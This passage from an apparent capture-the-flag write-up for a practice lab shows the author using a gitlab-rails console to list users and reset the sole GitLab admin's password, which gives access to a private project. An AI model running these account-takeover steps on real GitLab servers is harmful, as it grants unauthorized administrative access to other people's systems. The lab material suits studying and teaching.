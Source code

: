 I’ll start the console:

```

git@git:/$ gitlab-rails console
--------------------------------------------------------------------------------
GitLab:       12.8.1 (d18b43a5f5a) FOSS
GitLab Shell: 11.0.0
PostgreSQL:   10.12
--------------------------------------------------------------------------------
Loading production environment (Rails 6.0.2)
irb(main):001:0>

```

I can list the users, and the admin users:

```

irb(main):001:0> User.active
User.active
=> #<ActiveRecord::Relation [#<User id:5 @0xdf>, #<User id:4 @seven>, #<User id:1 @dexter>]>
irb(main):002:0> User.admins
User.admins
=> #<ActiveRecord::Relation [#<User id:1 @dexter>]>

```

### Access SecureDocker Project

#### Via Password Reset

Since dexter is the only admin, perhaps I could reset his password:

```

irb(main):003:0> dexter.password = '0xdf0xdf'
dexter.password = '0xdf0xdf'
=> "0xdf0xdf"
irb(main):004:0> dexter.password_confirmation = '0xdf0xdf'
dexter.password_confirmation = '0xdf0xdf'
=> "0xdf0xdf"
irb(main):005:0> dexter.save
dexter.save
Enqueued ActionMailer::DeliveryJob (Job ID: 568f2530-647b-4783-b5b7-6f3e37820ede) to Sidekiq(mailers) with arguments: "DeviseMailer", "password_change", "deliver_now", #<GlobalID:0x00007f77bb1e5660 @uri=#<URI::GID gid://gitlab/User/1>>
=> true

```

Now I can log in to git.laboratory.htb as dexter, and there’s an additional project:

![image-20210307054935384](https://0xdfimages.gitlab.io/img/image-20210307054935384.png)
